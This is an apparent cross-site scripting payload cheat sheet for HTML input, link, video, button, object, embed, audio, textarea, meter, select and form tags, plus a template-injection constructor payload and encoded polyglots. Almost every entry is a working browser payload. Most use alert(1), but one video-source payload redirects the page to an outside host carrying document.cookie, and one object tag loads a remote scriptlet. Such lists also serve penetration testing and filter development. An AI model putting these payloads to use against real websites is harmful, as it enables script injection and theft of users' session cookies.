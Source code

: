 ```html
<input/autofocus/onfocus=&#97&#108&#101&#114&#116&#40&#49&#41>
  
a tag
<a onmouseover="alert(1)">link</a>
<a href=# name=xss autofocus onfocus=alert(1)>
<a draggable="true" ondragend="alert(1)">test</a>
<a href="javascript:'\74\163\166\147\40\157\156\154\157\141\144\75\141\154\145\162\164\50\61\51\76'">link</a>
  
video tag
<video onkeypress="alert(1)" contenteditable></video>
<video src=1 onerror=alert(/xss/)>
<video src onloadstart=alert(1)>
<video><source onerror=location=/http:\\domain.tld\page/.source+document.cookie >

button tag
<button onfocus=alert(1) autofocus>
<button ondblclick="alert(1)" autofocus tabindex=1>test</button>
<button onkeyup="alert(1)" contenteditable>test</button>
  
object tag
<object data='data:text/html;base64,PHN2Zy9vbmxvYWQ9YWxlcnQoMSk+'></object>
<object type='text/x-scriptlet' data='http://example.com/xss.html'></object>
  xss.html -> <script>alert(1)</script>
 
embed tag
<embed src="data:text/html;base64,PHN2Zy9vbmxvYWQ9YWxlcnQoMSk+"></embed>
<embed src="javascript:alert(1)">
  
audio tag
<audio src=x onerror=alert(/xss/)>
  
textarea tag
<textarea autofocus onfocus=alert(1)>
  
meter tag
<meter onmouseover=alert(1)></meter>
<meter onmousemove="alert(1)"></meter>

select tag
<select autofocus onfocus=alert(1)>

form tag
<form onsubmit=alert(1)><button type=submit></button></form>
  
Constructor
{{+constructor.constructor("alert(document.cookie)")()+}}
  
Etc
ax6zt%2522%253e%253cscript%253ealert%2528document.domain%2529%253c%252fscript%253ey6uu6
jaVasCript:/*-/*`/*`/*’/*”/**/(/* */onMouSeoVer=alert(1) )
```
